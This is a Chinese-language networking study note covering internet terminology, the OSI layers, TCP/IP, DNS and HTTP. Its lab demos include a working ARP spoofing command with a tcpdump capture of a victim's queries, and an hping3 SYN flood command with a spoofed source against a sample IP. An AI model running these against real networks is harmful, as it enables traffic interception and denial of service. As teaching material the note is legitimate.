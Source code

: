 # Internet

#### 作者: YuJian

<img src="https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fjordanjack.com%2Fpub%2Fstatic%2Ffrontend%2FBML%2Fdefault%2Fen_US%2Fimages%2Flogos%2Finternet-explorer.jpg&refer=http%3A%2F%2Fjordanjack.com&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1620961953&t=2c02ef4be1e648b9dab13fa81ab0c989" alt="ie_icon" width="150px" />


# Internet 是什麼



​	互联网（internet），又称国际网络，指的是网络与网络之间所串连成的庞大网络，这些网络以一组通用的协议相连，形成逻辑上的单一巨大国际网络。

​	互联网始于1969年美国的阿帕网 (arpanet)。通常internet泛指互联网，而Internet则特指因特网。这种将计算机网络互相联接在一起的方法可称作“网络互联”，在这基础上发展出覆盖全世界的全球性互联网络称互联网，即是互相连接一起的网络结构。互联网并不等同万维网，万维网只是一建基于超文本相互链接而成的全球性系统，且是互联网所能提供的服务其中之一。




# 互联网、因特网、万维网三者的关系：



​	互联网包含因特网，因特网包含万维网，凡是能彼此通信的设备组成的网络就叫互联网。所以，即使仅有两台机器，不论用何种技术使其彼此通信，也叫互联网。国际标准的互联网写法是Internet，因特网是互联网的一种。因特网可不是仅有两台机器组成的互联网，它是由上千万台设备组成的互联网。

因特网使用 TCP/IP 协议让不同的设备可以彼此通信。但使用 [TCP/IP 协议](#tcp)的网络并不一定是因特网，一个局域网也可以使用 TCP/IP 协议。

​	因特网是基于 TCP/IP 协议实现的，TCP/IP 协议由很多协议组成，不同类型的协议又被放在不同的层，其中，位于应用层的协议就有很多，比如FTP、HTTP、SMTP。只要应用层使用的是HTTP协议，就称为万维网（World Wide Web）。之所以在浏览器里输入百度网址时，能看见百度网提供的网页，就是因为您的个人浏览器和百度网的服务器之间使用的是 [HTTP 协议](#http) 在交流。



# 网络体系结构



  1. **物理层**：提供透明的比特流传输,单位为比特。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/02/a.md)


  2. **数据链路层**：原始的传输线路变成逻辑传输线路，数据单位上帧。物理链路加上必要的通信协议而组成的逻辑链路。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/03/a.md)

     MAC

     MAC子层的主要功能包括数据帧的封装/卸装、帧的寻址和识别、帧的接收与发送、链路的管理、帧的差错控制。MAC层的主要访问方式有CSMA/CD、令牌环和令牌总线三种。以太网中的MAC帧格式如下：

     | 7        | 1（帧起始固定格式10101011） | 6        | 6      | 2    | 0~1500（IP数据报） | 0~46 | 4      |
     | -------- | --------------------------- | -------- | ------ | ---- | ------------------ | ---- | ------ |
     | 前导字段 | 帧起始符                    | 目的地址 | 源地址 | 类型 | 数据               | 填充 | 校验和 |

     主要協議有ARP、RARP

     ARP（Address Resolution Protocol）是根据 IP 地址获取物理地址的一个 TCP/IP 协议

     安全方面 : **ARP spoofing**

     驗證 : 使用攻擊主機 ip1 ,網關 ip0 ,被攻擊主機 ip2

     攻擊主機: 

     ```shell
     arpspoof -i eth0 -t ip2 ip0
     ```

     被攻擊主機:

     連接遠程數據庫,使用查詢語句

     攻擊主機: 

     ```shell
     tcpdump tcp port 本地連接端口 and host ip2 -s 0 -w a.cap
     ```

     解析 a.cap 包,可以監聽到攻擊主機向遠端發送的查詢語句

     

  3. **网络层**：主要功能是提供路由选择。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/04/a.md)

     网络层的主要协议有ICMP、IP、IGMP

     IPv4头部结构:

     ![image-20210513010843013](./img\image-20210513010843013.png)

  4. **传输层**：传输层利用实现可靠的端到端数据传输，能实现分段，传输和组装。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/05/a.md)

     传输层的主要协议有 UDP、TCP

     TCP与UDP不同，它是基于连接的，也就是说：为了在服务端和客户端之间传送TCP数据，必须先建立一个虚拟链路，也就是TCP连接，建立TCP连接的标准过程是这样的：

     首先，请求端（客户端）发送一个包含SYN标志的TCP报文，SYN即同步（Synchronize），同步报文会指明客户端使用的端口以及TCP连接的初始序号；
     第二步，服务器在收到客户端的SYN报文后，将返回一个SYN+ACK的报文，表示客户端的请求被接受，同时TCP序号被加1，ACK即确认（Acknowledgment）。
     第三步，客户端也返回一个确认报文ACK给服务器端，同样TCP序列号被加1，到此一个TCP连接完成。

     安全方面 : **SYN Flooding攻击**

     驗證 : 使用攻擊主機 ip1 ,網關 ip0 ,被攻擊主機 ip2

     攻擊主機: 

     ```shell
     hping3 -q -n -a 2.2.2.2 -S -s 53 --keep -p 445 --flood 192.168.73.138
     ```

     被攻擊主機:

     ```shell
     windump -i 物理端口 -s 0 -w a.cap
     ```

     

  5. **会话层**：允许不同机器上的用户之间建立会话。

  6. **表示层**：提供通用的数据描述格式，功能：语法转换，表示，数加密解密，与压缩解压。

  7. **应用层**：向应用程序提供服务。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/06/a.md)

     应用层的主要协议有 Telnet、FTP、SMTP 等


#### 在数据在各层之前传递时的几个概念：
+ 封装：数据在高层向低层传输过程中，每层都对接收的原始数据添加信息，通常加一个包头与报尾。

+ 网络协议：数据交换建立的一系列规则，标准或约定

+ 服务：两个对等实体间通信使得本层能为上层提供服务，要实现本层协议还需要使用下层所提供的服务。

  


# <span id="tcp">TCP/IP协议</span>

TCP/IP（Transmission Control Protocol/Internet Protocol，传输控制协议/网际协议）是指能够在多个不同网络间实现信息传输的协议簇。TCP/IP 协议不仅仅指的是 TCP 和 IP 两个协议，而是指一个由 FTP、SMTP、TCP、UDP、IP等协议构成的协议簇， 只是因为在 TCP/IP 协议中 TCP 协议和IP协议最具代表性，所以被称为 TCP/IP 协议。



# <span id="http">DNS</span>

域名系统（英文：Domain Name System，缩写：DNS）是互联网的一项服务。它作为将域名和IP地址相互映射的一个分布式数据库，能够使人更方便地访问互联网。DNS使用UDP端口53。当前，对于每一级域名长度的限制是63个字符，域名总长度则不能超过253个字符。

安全方面 : **DNS欺騙**

# <span id="http">HTTP协议</span>

超文本传输协议（Hypertext Transfer Protocol，HTTP）是一个简单的请求-响应协议，它通常运行在 TCP 之上。它指定了客户端可能发送给服务器什么样的消息以及得到什么样的响应。请求和响应消息的头以 ASCII 形式给出；而消息内容则具有一个类似 MIME 的格式。这个简单模型是早期 Web 成功的有功之臣，因为它使开发和部署非常地直截了当。[参考](https://gitee.com/yujian19840/http)

